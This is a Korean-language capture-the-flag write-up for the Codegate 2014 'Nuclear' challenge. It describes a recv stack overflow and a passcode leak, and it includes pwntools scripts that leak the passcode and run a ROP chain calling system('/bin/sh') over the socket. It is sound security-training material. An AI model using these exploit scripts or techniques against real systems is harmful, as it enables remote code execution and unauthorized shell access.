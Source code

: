 # 주의 사항

THIS_IS_NOT_KEY_JUST_PASSCODE 라는 파일을 만들어야합니다!

내용은 자유

# Codegate 2014 Nuclear 풀이

문제 요약 : passcode를 leak한 다음 recv를 이용한 overflow를 요구하는 문제



먼저 공격 벡터를 찾아보기로 했다.

sub_8048B9C에 pthread_create에 인자인 start_routine 함수를 보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_0.JPG)



분명히 buf는 524 바이트가 할당되어 있는데,  recv로 할당하는 크기는 0x512 즉 1298 바이트를 할당한다. 이 부분에서 stack overflow가 일어남을 알 수 있다.



근데 한 가지 문제가 있었다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_1.JPG)



launch를 하면 passcode를 입력해아하는데, 이 passcode는 THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일을 읽어서 저장된 값이다.  근데 이 파일은 내가 만들었긴하지만 모른다는 가정하에 PASSCODE를 구하려면 어딘가에서 leak을 해야했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_2.JPG)



leak 하기 전 스택의 상황을 살펴보니

| ret | sfp | newthread | str | v4 | v5 | passcode | v7 | *stream|으로 이루어진 것을 알 수 있다.

그리고 위를 바탕으로 leak을 할 수 있는 함수를 찾았더니



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_3.JPG)



아마 이것이 leak을 위한 함수 같다. 근데 이것만 이용하면 str을 다 채운다고 해도 v4, v5에 가로막혀 passcode의 값을 빼기는 힘들다.

그래서 v4, v5에 있을 NULL을 없애기 위한 방법을 찾아보았다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_4.JPG)

 

target이란 명령어를 입력하면 %f/%f로 v5와 &v4에 값을 채워넣는데 이 부분의 NULL을 없애면 아마 passcode를 leak할 수 있을 듯 하다.



이를 바탕으로 leak하는 함수를 짜보았다.

```python
from pwn import *

r = remote("localhost", 1129)

r.recvuntil("> ")
r.sendline("target")
r.recvuntil("---> ")
r.sendline("123.456798/123.456789") # v4와 v5의 값을 채워줌
r.recvuntil("> ")
r.sendline("A"*516)
r.recv(0x21e) # garbage 값 버리기
passcode = r.recv(1024)
print "[*] passcode : " + passcode
```



이를 실행해보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_5.JPG)



와~ passcode가 passcode였다. ㅋ



이제 launch 메뉴에서 passcode를 입력하고 공격 벡터를 공격하면 되겠다.

먼저 어떤 보호기법이 걸려있나 살펴보기로 한다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_6.JPG)



NX만 걸려있다. 그러면 일단 쉘코드 문제는 아니니깐 ROP를 하면 되겠다.

근데 plt를 구할 때, 나는 ELF를 이용하여 구했는데 이게 제대로 된 값이 아니었다... ㅠㅠ

그래서 어짜피 서버는 계속 똑같은 값을 가지고 있을 것이니깐 디버깅을 통해 함수 주소를 구해온 후  익스를 하기로 했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_7.JPG)



이젠 그냥 이 주소를 가지고 rop를 때리면??



```python
from pwn import *
import time

binary = "./nuclear"
libc = "/lib/i386-linux-gnu/libc-2.23.so"

#context.log_level = "debug"

r = remote('localhost', 1129)
e = ELF(binary)

#time.sleep(10) # 디버깅을 위한 sleep

ppppr = 0x804917c
bss = e.bss()
recv = 0xf76b3340
system = 0xf7528da0

r.recvuntil("> ")
r.sendline("launch")
r.recvuntil(": ")
r.sendline("passcode")
r.recvuntil("COUNT DOWN : 100")

print "[*] gadget addr : " + hex(ppppr)
print "[*] bss addr : " + hex(bss)
print "[*] recv addr : " + hex(recv)
print "[*] system addr : " + hex(system)

payload = "A" * 528
payload += p32(recv)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)
payload += p32(0)

payload += p32(system)
payload += "ABCD"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")  # 그냥 /bin/sh 때리면 서버에서 처리됨
r.recv(1024)
r.interactive()
r.close()
```



이러면??



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_8.JPG)



성공!!!!
